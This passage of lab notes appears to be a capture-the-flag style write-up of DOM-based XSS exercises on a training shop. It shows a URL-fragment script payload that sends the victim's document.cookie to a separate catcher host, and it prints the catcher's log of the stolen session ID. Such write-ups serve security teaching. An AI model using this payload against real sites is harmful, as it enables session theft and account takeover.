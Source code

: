 - tried out if we can add javascript in the URL as a fragment

```url
https://3e15ae12-6d8f-4421-bfa0-d797b9a7374f.idocker.vuln.land/start.html#<script>console.log('test');</script>
```

- the fragment code is evaluated by jquery because the text in the fragment is directly added after the `<body>` tag and if it is a script it is then executed by the client
- based on that and the code from the challenge before we prepared the URL to send the cookie to the catcher

```url
https://3e15ae12-6d8f-4421-bfa0-d797b9a7374f.idocker.vuln.land/start.html#<script>XSSImage=new Image;XSSImage.src='https://cd4a9a57-b34e-41d7-8651-0b8475230cea.idocker.vuln.land/abcd?cookie=' + document.cookie;</script>
```

```
URL: http://cd4a9a57-b34e-41d7-8651-0b8475230cea.idocker.vuln.land/abcd?cookie=jsessionid=my_name_is_bond_007
METHOD: GET
IP: 10.20.0.1
Time: 2023-10-07 18:36:27
Headers:
Host: cd4a9a57-b34e-41d7-8651-0b8475230cea.idocker.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Referer: https://3e15ae12-6d8f-4421-bfa0-d797b9a7374f.idocker.vuln.land/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-site
Te: trailers
X-Forwarded-For: 51.154.62.18
X-Forwarded-Host: cd4a9a57-b34e-41d7-8651-0b8475230cea.idocker.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: vm-docker-01.vuln.land
X-Real-Ip: 51.154.62.18


QueryString:
b'cookie=jsessionid=my_name_is_bond_007'
===================================================
```

- the server cannot detect this attack, because the fragment is executed on client side and the server cannot see the request

# GlockenEmil 2.0 – DOM Local Storage

- tried the same things as the challenges before
- we tried many variants and noticed that we need to append our script code directly after `selectedQuantity=1` and encode the code
- based on that we prepared the URL for the victim
